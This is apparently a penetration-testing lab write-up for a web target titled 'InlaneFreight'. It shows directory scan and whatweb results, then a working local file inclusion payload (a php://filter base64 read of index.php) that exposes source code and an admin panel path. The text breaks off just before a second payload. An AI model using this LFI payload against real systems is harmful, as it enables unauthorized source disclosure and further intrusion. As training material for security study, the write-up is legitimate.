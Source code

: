 ### Directory Scanning Result:
```
images/
css/
js/
fonts/
assets/
```
monstly from this are forbiden


### Web Enumeration 

__Whatweb tool Results
```
Bootstrap, Country[RUSSIAN FEDERATION][RU], HTML5, HTTPServer[nginx/1.18.0],
JQuery[3.3.1], 
PHP[7.3.22], 
Script, Title[InlaneFreight], 
X-Powered-By[PHP/7.3.22], nginx[1.18.0]
```

totel Hidden Directories/files found 
```
contact                 [Status: 200, Size: 7036, Words: 1569, Lines: 195]
about                   [Status: 200, Size: 14635, Words: 3194, Lines: 331]
main                    [Status: 200, Size: 15829, Words: 3435, Lines: 401]
index                   [Status: 200, Size: 0, Words: 1, Lines: 1]
industries              [Status: 200, Size: 12404, Words: 2814, Lines: 314]
error        
```

Working payloads
================
After Try all the possible attack vector found the following working payload that will give us a furture information.
```
ip:port/index.php?page=php://filter/read=convert.base64-encode/resource=index
```
this is the payload that we use to convert the index.php file into base64 so we can decode base64 string to get the source code of the index.php.
**note the server add .php extension automatic so you dont have give him that**

After decoding the base64 code of source file now we have the backend source code. There we can see all the backend code used and also there we can see a comment that might be a admin panal or admin directory.

`ilf_admin/index.php`
After search this directory into the browser with the following format
`http://IP:Port/ilf_admin/index.php`
we found out that this is a admin panal. There we see diffrent directory when we click on it we see from url that they might be a attack vector for LFI.
Like the following payload

